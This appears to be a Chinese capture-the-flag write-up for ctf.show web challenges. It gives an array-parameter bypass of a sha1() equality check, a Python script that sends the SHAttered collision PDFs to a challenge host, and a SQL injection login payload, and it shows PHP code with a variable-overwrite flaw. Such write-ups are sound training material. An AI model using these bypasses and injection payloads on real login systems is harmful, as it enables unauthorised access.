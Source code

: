 1. username不等于password
2. 二者sha1()后的值强相等

没ban数组，直接绕过就行

```
?name[]=1&password[]=2
```

如果ban了数组就用pdf：[ctf/Prudentialv2_Cloud_50.md at master · bl4de/ctf (github.com)](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md)

```
import requests
import urllib.request

rotimi = urllib.request.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib.request.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];

r = requests.get('http://d576f0d8-1575-4578-a822-79364afbcaaf.challenge.ctf.show/', params={'name': rotimi, 'password': letmein});
print(r.text)
```

## 721

一个登录框，有提示

```php
# CTFSHOW hint: 
if (($row[pass]) && (!strcasecmp(md5($pass), $row[pass]))) {
	echo "<p>Logged in! ".$flag." </p>";
}
```

根据$row[pass]猜测会查询username和pass，尝试构造

```
username：a' union select md5(123)#
password：123
```

## 722

```php
# CTFSHOW hint: 
foreach ($_GET as $key => $value)
	$$key = $$value;
foreach ($_POST as $key => $value)
	$$key = $value;
if ( $_POST["flag"] !== $flag )
	die($fail);
echo "This is your flag : ". $flag . "\n";
	die($success);
```
